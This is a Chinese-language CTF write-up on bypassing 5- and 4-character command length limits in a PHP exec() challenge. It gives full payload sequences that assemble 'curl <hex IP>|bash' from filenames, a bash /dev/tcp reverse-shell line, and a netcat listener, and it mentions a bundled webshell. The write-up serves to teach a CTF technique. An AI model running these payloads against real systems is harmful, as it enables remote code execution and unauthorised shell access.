

# 绕过字符数限制 getshell


## 0x00 前言

之前做题有做到过字数限制的 shell，有五个字符也有四个字符的，当然我一直不会做，最近又重新研究了一下这个绕过的问题，就把它记录下来了

这种题一般都是每人一个 sandbox 目录，之后的操作都在这个目录中进行


## 0x01 前置知识

1. `ls` 输出的默认排序是逐字符按照 ASCII 码从小到大排序

2. `ls -t` 文件名按时间排序

3. 重定向符 `>` 无命令也可用于创建文件

4. IP 的等价表示（选用，有时可降低难度）

   将 `.` 分隔的每个十进制数转换成两位十六进制再连接起来（可转换成十进制、八进制等），和原 IP 等价使用

   ```python
   ip = '172.17.0.1'
   hex_ip = '0x'
   for i in ip.split('.'):
       hex_ip += str(hex(int(i)))[2:].zfill(2)
   print(hex_ip) # 0xac110001
   print(int(hex_ip, 16)) # 2886795265
   print('0' + oct(int(hex_ip, 16))[2:]) # 025404200001
   ```

5. 单独的 `*` 相当于 `` `ls` `` 即将文件名作为命令执行，也可以添加其它字符进行匹配

   

   如上图所示，目录下有两个文件 `dir` 和 `whoami` ，单独的 `*` 执行了 `dir whoami` 命令，而 `*i` 执行了 `whoami` 命令

6. `dir` 命令本质上与 `ls` 相同，但输出不换行，且首字母为 d 可以操作

7. `rev` 命令输出反转文件每一行后的内容

   


## 0x02 5个字符

当然先是五个字符的，简单一点

题目代码如下：

```php
<?php
$sandbox = '/tmp/sandbox5/'.md5($_SERVER['REMOTE_ADDR']);
@mkdir($sandbox);
@chdir($sandbox);
if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
} else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf '.$sandbox.'/*');
}
highlight_file(__FILE__);
```

大体思路就是把 `curl ip|bash` 分割成一个一个小字符串，并在结尾添加 `\` 连接，将要执行的脚本放在服务器上，这其中还要用到 `ls -t` ，为了防止 `.` 的干扰采用十六进制表示 IP (这里需要自己研究怎么分割)

```bash
# ls -t>v
>ls\\
ls>_
>\ \\
>-t\\
>\>v
ls>>_
# curl 0xac110001|bash (适当分割并逆序写入)
>bash
>\|\\
>01\\
>00\\
>11\\
>ac\\
>0x\\
>\ \\
>rl\\
>cu\\
# exec
sh _
sh v
```

服务器中 `index.html` 中放有反弹 shell 的命令

```bash
bash -i >& /dev/tcp/172.17.0.1/12345 0>&1
```

在服务器监听 `12345` 端口

```bash
nc -lvp 12345
```

成功反弹 shell


## 0x02.5 一个惊喜的发现

我在做 4 个字符的测试时发现，用 php 的 `exec` 函数执行 shell 命令，结尾的反斜杠居然不需要转义

即上一题的 payload 可简化为

```bash
# ls -t>v
>ls\
ls>_
>\ \
>-t\
>\>v
ls>>_
# curl 0xac110001|bash (适当分割并逆序写入)
>bash
>1\|\
>000\
>c11\
>0xa\
>l\ \
>cur\
# exec
sh _
sh v
```

也成功反弹了 shell，不知道是不是个例或者是 php 版本问题，但我在接下来 4 个字符的操作中使用到了这个特性，要是有 dalao 发现这样不可行烦请告知我（如果真的有 dalao 看的话


## 0x03 4个字符

这才是重头戏，曾经差点把我搞自闭的题，我终于做出来了

题目代码如下：

```php
<?php
$sandbox = '/tmp/sandbox4/'.md5($_SERVER['REMOTE_ADDR']);
@mkdir($sandbox);
@chdir($sandbox);
if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 4) {
        @exec($_GET['cmd']);
} else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf '.$sandbox.'/*');
}
highlight_file(__FILE__);
```

思路与之前相同，但是要充分运用 `dir` 和 `rev` 命令，先放一下 payload 再进行分析

```bash
# ls -tk>f
>dir
>f\>
>kt-
>sl
*>v # 这里文件名为 v 非常重要
>rev
*v>g
# curl 0xac110001|bash (适当分割并逆序写入)
>ash
>b\
>\|\
>01\
>00\
>11\
>ac\
>0x\
>\ \
>rl\
>cu\
# exec
sh g
sh f
```

这里重点分析第一部分，怎么奇特的构造出需要的命令

第一步创建名为 dir 的文件，由于 d 的 ASCII 码较小，这个文件在第一部分将始终位于第一位

第二三四步分别创建对应文件

第五步用到了单独的 `*` 这里相当于执行了 `` `dir f> kt- sl`>v``

这之后文件 v 中的内容为 `f> kt- sl`

第六步创建名为 rev 的文件

第七步是这里最重要的地方，也是前边的文件名为 v 非常重要的原因，用到了 `*` 第二种用法，相当于执行了 `` `rev v`>g`` ，即将 v 的内容反转写入 g

这之后文件 g 的内容为 `ls -kt >f` 之后的内容与 5 个字符的方法相同

这里再解释两个地方

1. 是文件名 f 可以修改，但要保证其位于第二位

2. 是 `-tk` 中的 k 对输出结果没有影响，但控制了该文件在输出中的位置，也可进行修改，但要仍满足以上两点才可以


## 0x04 后记

好久没写博客了，在 npy 的提醒下来水一篇博客，也当做一个笔记，下次遇到这种题查自己博客就好了

这两道题的[源码](https://github.com/X5tar/bypass-char-number-limit)我放到 GitHub 了，并添加了一个文件名为 shell.php 的 webshell，方便以 www-data 用户进行一些操作（好像也没多大用


